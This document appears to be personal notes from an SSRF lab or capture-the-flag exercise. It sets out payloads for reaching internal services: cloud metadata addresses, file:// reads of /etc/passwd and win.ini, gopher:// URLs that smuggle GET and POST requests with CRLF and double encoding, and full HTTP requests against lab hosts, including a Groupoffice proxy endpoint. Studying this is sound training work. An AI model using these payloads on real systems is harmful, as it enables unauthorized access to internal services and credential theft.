 #### SSRF

```
curl http://127.0.0.1:8080

```

##### Private IP addresses

|IP ADDRESS RANGE	|NUMBER OF ADDRESSES|
|-----------------|-------------------|
|10.0.0.0/8	|16,777,216|
|172.16.0.0/12	|1,048,576|
|192.168.0.0/16	|65,536|

An attacker exploiting an SSRF vulnerability in an AWS cloud environment could potentially access this metadata service and obtain sensitive data at 169.254.169.254.
Others provide access through DNS, such as Google Cloud, which uses metadata.google.internal.
https://cloud.google.com/compute/docs/metadata/overview

Start a webserver on kali and try to access it in case the response is not available.

Sol:
check which page is requested. Then touched that page and started python http server and got flag.


http://metadata.web200.local/latest/meta-data/flag

http://localhost/flag


##### Schemes

http
https
file
ftp

file:///c:/windows/win.ini

file:///etc/passwd

Curl supports gopher protocol

```
curl gopher://127.0.0.1:9000/_GET%20/hello_gopher%20HTTP/1.1
```

we may need to include a line feed character (%0a) and a Host header. Since we are including the GET request as part of the path, we can easily change it to a different HTTP method

we may need to include a line feed character (%0a) and a Host header. Since we are including the GET request as part of the path, we can easily change it to a different HTTP method.

We need to include port 80 in our URL because the Gopher service normally runs on port 70.


```
gopher://127.0.0.1:80/_GET%20/status%20HTTP/1.1%0a

gopher://127.0.0.1:80/_POST%20/status%20HTTP/1.1%0a

```

our browser URL-encodes the percent signs, creating double encoded3 values.
If we tried to replicate this attack using curl on our Kali VM, we would encounter a problem. The application does not receive the exact payload we've entered in our browser.
The application first processes it as the request to /preview. This request triggers the SSRF attack, which sends another request, in this case the GET request to 127.0.0.1/status. Since the payload values are double encoded, the application does not fully decoded the payload until it processes the second request.

In the case of the percent sign, this resulted in each space character being double URL-encoded as "%2520". The application essentially processes our request twice. The application first processes it as the request to /preview. This request triggers the SSRF attack, which sends another request, in this case the GET request to 127.0.0.1/status. Since the payload values are double encoded, the application does not fully decoded the payload until it processes the second request.


If we were to replicate this attack from curl or in the Repeater tool of Burp Suite, we would need to double encode any non-alphanumeric characters as well.

1 (Wikipedia, 2021), https://en.wikipedia.org/wiki/File_URI_scheme ↩︎

2 (Wikipedia, 2021), https://en.wikipedia.org/wiki/Gopher_(protocol) ↩︎

3 (OWASP Foundation, 2021), https://owasp.org/www-community/Double_Encoding ↩︎


From status page get location of config file.

file:///app/config.ini


http://ssrf-sandbox/protectedflag?password=twasbryllyg

-----
Below 3 flag are same:

http://backend/flag

gopher://127.0.0.1:80/_GET%20/gateway/flag?apiKey=chesirecat%20HTTP/1.1%0a

gopher://backend:80/_GET%20/flag?apiKey=chesirecat%20HTTP/1.1%0a

------
Below 2 flags are same:

http://localhost/flag

gopher://localhost:80/_GET%20/flag%20%0a

```
POST /preview HTTP/1.1
Host: ssrf-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: http://ssrf-sandbox
Connection: close
Referer: http://ssrf-sandbox/preview
Upgrade-Insecure-Requests: 1

url=gopher%3A%2F%2F127.0.0.1%3A80%2F_GET%2520%2Fgateway%3FapiKey%3Dchesirecat%2520HTTP%2F1.1%250a&utility=curl
```
Tried below...  worked
```
POST /preview HTTP/1.1
Host: ssrf-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 280
Origin: http://ssrf-sandbox
Connection: close
Referer: http://ssrf-sandbox/preview
Upgrade-Insecure-Requests: 1

url=gopher%3A%2F%2Fbackend%3A80%2F_POST%2520%2Flogin%2520HTTP%2F1.1%250d%250aHost%3A%2520backend%3A80%250d%250aContent-Type%3A%2520application%2Fx-www-form-urlencoded%250d%250aContent-Length%3A%252041%250d%250a%250d%250ausername%3Dwhite.rabbit%26password%3Ddontbelate&utility=curl

```

In browser URL field:
```
gopher://backend:80/_POST%20/login%20HTTP/1.1%0d%0aHost:%20backend:80%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2041%0d%0a%0d%0ausername=white.rabbit&password=dontbelate

```

Had to access using backend as /gatewaylogin didn't support POST Method


###### Groupoffice

```
POST /index.php?r=summary/rssFeed/proxy&security_token=S37qk6Z1CJnNQtKAxETM HTTP/1.1
Host: groupoffice
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate
Authorization: Bearer 6427000c78ba4493edc30d6876c9af22e4879b01c5b19
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 61
Origin: http://groupoffice
Connection: close
Referer: http://groupoffice/?SET_LANGUAGE=en
Cookie: groupoffice=99cm83u18a7bliboqj522sv8a1; accessToken=6427000c78ba4493edc30d6876c9af22e4879b01c5b19; GO_LANGUAGE=en

feed=http%3A%2F%2Fflag%2f&security_token=S37qk6Z1CJnNQtKAxETM

```

Use apache server. That way you will get the client utility accessing the url.
